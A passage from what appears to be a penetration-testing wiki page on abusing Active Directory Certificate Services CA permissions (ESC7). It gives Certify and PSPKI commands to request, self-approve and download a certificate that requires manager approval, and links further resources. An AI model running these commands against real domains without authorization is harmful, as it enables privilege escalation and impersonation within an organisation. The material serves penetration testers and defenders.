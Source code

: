 === Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object, and to request a certificate that requires manager approval.

In this example, both `ManageCA` and `ManageCertificates` are already obtained. There is no known method to obtain the `ManageCertificates` right.

Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to approve a certificate request ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is used). PSPKI is a PowerShell module used to "simplify various PKI and AD CS management tasks".

```powershell
# 1. Request a certificate that requires manager approval with Certify
Certify.exe request /ca:CA.domain.local\CA /template:ApprovalNeeded
...
[*] Request ID : 1

# 2. Install PSPKI on a controlled Windows host
Install-Module -Name PSPKI
Import-Module PSPKI

# 3. Approve the pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.domain.local | Get-PendingRequest -RequestID 1 | Approve-CertificateRequest

# 4. Download the certificate with Certify
Certify.exe download /ca:CA.domain.local\CA /id:1
```

:::


> [!WARNING]
> 
> If sensitive rights are identified, creativity will be the best ally. Not much public tooling is available at the time of writing (October 21st, 2021).
> 
> Currently, the best resources for manually abusing this are
> 
> * [the whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) (PDF)
> * [Certipy 2.0: BloodHound, New Escalations, Shadow Credentials, Golden Certificates, and more! (by Olivier Lyak)](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6)
> * [Abusing weak ACL on Certificate Templates (by daemon0cc0re)](https://github.com/daem0nc0re/Abusing_Weak_ACL_on_Certificate_Templates)
> * [AD-CS The Certified Pre Owned Attacks (by HTTP418)](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)
> * [AD CS Abuse (by snovvcrash)](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse#vulnerable-ca-aces-esc7)


### Other objects (ESC5)
